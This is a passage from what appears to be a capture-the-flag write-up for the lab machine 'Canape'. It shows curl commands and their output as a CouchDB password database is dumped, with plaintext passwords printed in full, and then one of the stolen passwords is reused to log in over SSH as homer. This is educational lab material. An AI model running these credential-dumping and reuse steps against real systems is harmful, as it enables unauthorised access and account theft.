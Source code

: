     www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/_all_docs
    {"total_rows":4,"offset":0,"rows":[
    {"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
    {"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
    {"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
    {"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
    ]}
    
    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
    {"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
    
    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
    {"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
    
    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
    {"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
    
    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
    {"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
    

#### Further CouchDB Exploitation

There’s 3 further ways to attack CouchDB, but since we just got SSH keys, they
aren’t necessary for Canape. If you’re interested, check out the Beyond Root -
CouchDB section at the end.

### SSH as homer

#### Shell Access

That first password from the couchdb enumeration, `"item": "ssh"`, is
promising. We noticed in initial enumeration that SSH was running on 65535. We
try to ssh as the only user on the box, homer, with the password,
“0B4jyA0xtytZi7esBNGp”, and it works:

    
    
    root@kali# ssh -p 65535 homer@10.10.10.70
    homer@10.10.10.70's password:
    Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    Last login: Fri Apr 20 01:42:09 2018 from 10.10.15.168
    homer@canape:~$ id
    uid=1000(homer) gid=1000(homer) groups=1000(homer)
    